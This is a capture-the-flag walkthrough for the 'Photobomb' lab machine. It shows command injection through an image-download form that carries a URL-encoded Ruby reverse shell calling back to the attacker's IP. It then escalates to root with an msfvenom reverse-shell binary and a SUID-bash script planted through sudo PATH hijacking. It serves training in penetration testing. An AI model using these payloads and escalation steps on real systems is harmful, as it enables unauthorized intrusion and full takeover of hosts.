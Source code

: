 ![image](https://user-images.githubusercontent.com/105310322/195705375-63f90af6-b2f9-4c0c-bee0-408ea2dc6cbf.png)

### Tools: msfvenom

### Vulnerabilities: Command Execution,Sudo: Change Path Variable

Nmap gives shows a webpage and ssh is open.

```console
└─$ nmap -A -p- -T4 -Pn 10.129.44.124
Starting Nmap 7.93 ( https://nmap.org ) at 2022-10-13 10:04 CDT
Nmap scan report for 10.129.44.124
Host is up (0.031s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e22473bbfbdf5cb520b66876748ab58d (RSA)
|   256 04e3ac6e184e1b7effac4fe39dd21bae (ECDSA)
|_  256 20e05d8cba71f08c3a1819f24011d29e (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://photobomb.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.92 seconds
```

Accessing the webpage and looking at the source code we can find a username and password. ```pH0t0:b0Mb!```

http://pH0t0:b0Mb!@photobomb.htb/printer


![image](https://user-images.githubusercontent.com/105310322/195695976-b76720b2-7e3e-4d69-ab9d-9a08f19ac0ca.png)

Next we come to a page with pictures and a download section.

![image](https://user-images.githubusercontent.com/105310322/195698235-51057170-a92d-4bf5-b0be-7c14975b6f8f.png)


Before we get the the actual attack vector I tried a couple of different things.

In burp if we intercept the download page and get rid of fields except for the picture and then send it. This will actually bring us to a page that gives lots of information about what the webapp is running.

![image](https://user-images.githubusercontent.com/105310322/195699039-242afef3-3cf7-4eab-a376-e9d8f59e9b44.png)


I started with trying to exploit Sinatra with a directory traversal but the page confirmed that their were protections in place against it.

![image](https://user-images.githubusercontent.com/105310322/195699527-fc9a80e0-0ad5-46d3-90f9-037f80d8b313.png)

Also by trying to access other directories it will bring us to this page that confirms it is running Sinatra.

http://photobomb.htb/printerfriendly

![image](https://user-images.githubusercontent.com/105310322/195699688-cec33e27-e9d5-42c7-9000-94a8cc72ee7f.png)

Now on to the actual Attack Vector!


In BurpSuite intercept the ```Download Photo To Print``` and send it to repeater.

In the file field we can implant a reverse shell.

I used ```ruby -rsocket -e'spawn("sh",[:in,:out,:err]=>TCPSocket.new("10.10.16.11",1234))'``` and URL encoded it.

After crafting your payload it should look something like below.

Set up your listener and send your payload.

```
POST /printer HTTP/1.1
Host: photobomb.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 316
Origin: http://photobomb.htb
Authorization: Basic cEgwdDA6YjBNYiE=
Connection: close
Referer: http://photobomb.htb/printer
Upgrade-Insecure-Requests: 1

photo=eleanor-brooke-w-TLY0Ym4rM-unsplash.jpg&filetype=jpg;%72%75%62%79%20%2d%72%73%6f%63%6b%65%74%20%2d%65%27%73%70%61%77%6e%28%22%73%68%22%2c%5b%3a%69%6e%2c%3a%6f%75%74%2c%3a%65%72%72%5d%3d%3e%54%43%50%53%6f%63%6b%65%74%2e%6e%65%77%28%22%31%30%2e%31%30%2e%31%36%2e%31%31%22%2c%35%35%35%35%29%29%27&dimensions=30x20
```

We get a shell as wizard!

```console
└─$ nc -lvnp 1234                    
listening on [any] 1234 ...
connect to [10.10.16.11] from (UNKNOWN) [10.129.44.124] 49918
id
uid=1000(wizard) gid=1000(wizard) groups=1000(wizard)
```

Running sudo -l reveals that we can run cleanup.sh, but we can also set the PATH variable.

```console
wizard@photobomb:/tmp$ sudo -l
sudo -l
Matching Defaults entries for wizard on photobomb:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User wizard may run the following commands on photobomb:
    (root) SETENV: NOPASSWD: /opt/cleanup.sh
```

Checking out cleanup.sh shows that it is running chown whenever cleanup.sh is ran.

Our plan of attack is to have cleanup.sh read our own file chown before anything else. 

```console
wizard@photobomb:/tmp$ cat /opt/cleanup.sh
cat /opt/cleanup.sh
#!/bin/bash
. /opt/.bashrc
cd /home/wizard/photobomb

# clean up log files
if [ -s log/photobomb.log ] && ! [ -L log/photobomb.log ]
then
  /bin/cat log/photobomb.log > log/photobomb.log.old
  /usr/bin/truncate -s0 log/photobomb.log
fi

# protect the priceless originals
find source_images -type f -name '*.jpg' -exec chown root:root {} \;
```


So we can either create a reverse shell with msfvenom or change the suid bit on /bin/bash. I will show both.


Create your reverse shell and be sure to name it chown and then transfer it to the victim computer.

Note: Be sure to chmod your chown before trying to exploit. ie ```chmod 777 chown```

```console
└─$ msfvenom -p linux/x64/shell_reverse_tcp lhost=10.10.16.11 lport=1235 -f elf -o chown
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 74 bytes
Final size of elf file: 194 bytes
Saved as: chown
```

The following command places /tmp as the first place in the path. This is where our chown is located. Set up our listener and grab it!

```console
wizard@photobomb:/tmp$ sudo PATH=/tmp\:/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin /opt/cleanup.sh
```
Awesome we got a root with a reverse shell.

```console
└─$ nc -lvnp 1235
listening on [any] 1235 ...
connect to [10.10.16.11] from (UNKNOWN) [10.129.44.124] 51630
id
uid=0(root) gid=0(root) groups=0(root)
```

This payload is the same thing except my chown has my own script in it. I placed this chown in /dev/shm

```
#!/bin/bash
chmod u+s /bin/bash
```
Next I do the same thing but instead place /dev/shm in front of the others to be called first.

Note: not putting the full paths for the other directory calls can mess up other commands that need to be ran.


After running it we can check the permissions to verify our suid bit and then run ```bash -p``` to execute as root!

```console
wizard@photobomb:/tmp$ sudo PATH=/dev/shm\:/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin /opt/cleanup.sh
<n\:/usr/bin\:/sbin\:/bin\:/snap/bin /opt/cleanup.sh
wizard@photobomb:/tmp$ ls -la /bin/bash
ls -la /bin/bash
-rwsr-xr-x 1 root root 1183448 Apr 18 09:14 /bin/bash
wizard@photobomb:/tmp$ bash -p
bash -p
bash-5.0# id
id
uid=1000(wizard) gid=1000(wizard) euid=0(root) groups=1000(wizard)
bash-5.0# 
```

```console
bash-5.0# cat /home/wizard/user.txt
cat /home/wizard/user.txt
bc45****************************
bash-5.0# cat /root/root.txt
cat /root/root.txt
5ab2****************************
```

Congratulations everyone!
